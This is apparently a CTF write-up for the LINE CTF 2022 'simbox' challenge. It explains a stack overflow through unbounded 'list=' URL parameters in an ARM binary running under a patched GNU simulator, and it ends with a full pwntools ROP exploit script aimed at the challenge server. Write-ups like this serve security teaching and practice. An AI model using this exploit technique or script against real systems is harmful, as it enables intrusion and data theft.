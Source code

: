 # Simbox


was a pwn challenge from LINE CTF 2022

we were given two binaries,

an arm simulator , version information indicates GNU simulator (SIM) 11.2,

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/gnusim.png)

this tool is included in GDB-11.2 distribution, it is an arm processor emulator, that run elf arm binaries, and emulates some basic syscalls..

A patch has been applied to it, and is given too.. A first look at it indicates that this patch forbid to open files that the name contains "flag" or "simbox" strings..

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/patch.png)

The simulator emulates only open, read, write, lseek, syscalls.. not much more.. (some syscalls for memory info, useless for us...)

We were given too, an arm elf binary, that is a sort of url parser, that parse a given url, and print various parameters..

When we connect to the CTF server we land directly in the arm binary (ran via simulator), so we will have to exploit first the arm binary..

then we will see how to read flag, and "escape" from the simulator restrictions... (more on this later...)

**so let's reverse the arm binary...**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/main.reverse.png)

the main function is very simple as you can see, it allocates 0x800 bytes , then read our url in this buffer.. then pass it to the function parse_url(buff)

where all the magic happens!

**So...let's reverse parse_url(buff)**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/parseurl.reverse.png)

well, the function first verify that the url start with "http://",

that an hostname follows ended with '/',

then it looks for parameters, and specially for a paramater called "list=".

then it enters a loop parsing the "list" parameters one by one, and store their value converted to int via atoi in a buffer on stack,

one value after the others... until the end of the url.

**So where is the vulnerability you will ask?**

humm.. do you see a limit to the number of parameters?

no.. it will continue adding each "list=" values to stack.. until our url finish..

so we can overwrite return values, and write a rop to the stack basically with the "list=" parameters values...

There is a little difficulty, that will be an helper for us...

When we reach position 73, (the 73th "list=" value), we will overwrite the "pos" counter,

so we must take care of the value we will write to it..

it will help us , to "jump" directly to the return pointer value on stack, at position 79.

then after we will write our rop..

I did a simple open , read, write ROP, that opens a file and dumps it.. as they are only basic syscalls emulated anyway...

well.. I first opened /proc/self/cmdline , that gives me the commande line , and the remote programe directory "/home/simbox"

so I just tried opening "/home/simbox/flag", and guess what? that just give me flags...

**as you can see:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/gotshell.gif)

well , the final explanation was that the patch applied to the simulator was ineffective :)

pretty strange idea from the challenge creator indeed...

Anyway, here is the exploit code:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="arm", os="linux")

exe = ELF('simbox')

host, port = "35.243.120.147", "10007"

p = remote(host,port)

system = 0xa0a8
puts = 0x08dcc
open = 0x9c74
read = 0xa1a8
url_string = 0x245a8        # point to url string in memory

gadget0 = 0x000135f0 # pop {r0, pc}
gadget1 = 0x00012e38 # mov r1, r5 ; pop {r4, r5, pc}
gadget2 = 0x00012908 # pop {r1, r2, lr}; mul r3, r2, r0; sub r1, r1, r3; mov pc, lr;
gadget3 = 0x00008c80 # pop {r4, pc};

payload = 'http://www.pipotin.com/?'
for i in range(73):
  payload += 'list=123&'
payload += 'list=79&'           # make pos point to return address

# we now construct our top
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(0)+'&'   # r1
payload += 'list='+str(0)+'&'   # r2
payload += 'list='+str(gadget3)+'&'  # set lr to gadget3 for functions return
payload += 'list='+str(0)+'&' # r4
# set r1 = 0
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(0)+'&'   # r5
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(0)+'&'   # r5
# set r0 = string and open
payload += 'list='+str(gadget0)+'&'
payload += 'list='+str(url_string+1024)+'&'
payload += 'list='+str(open)+'&'
payload += 'list='+str(0)+'&' # r4

# set r2 = 1024
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(0)+'&'   # r1
payload += 'list='+str(1024)+'&'   # r2
payload += 'list='+str(gadget3)+'&'  # set lr to gadget3 for functions return
payload += 'list='+str(0)+'&' # r4
# set r1 = url_string+1100
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(url_string+1100)+'&'   # r5
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(url_string+1100)+'&'   # r5
# read
payload += 'list='+str(read)+'&' 
payload += 'list='+str(0)+'&' # r4
#
payload += 'list='+str(gadget0)+'&'
payload += 'list='+str(url_string+1100)+'&'
payload += 'list='+str(puts)+'\x00'

payload = payload.ljust(1024,'A')
print('len of payload = '+str(len(payload)))
print('\npayload\n--------------------------\n'+payload)

payload += '/home/simbox/flag\x00'


p.sendlineafter('url> \n', payload)
p.interactive()
```

*nobodyisnobody still pwning things..*

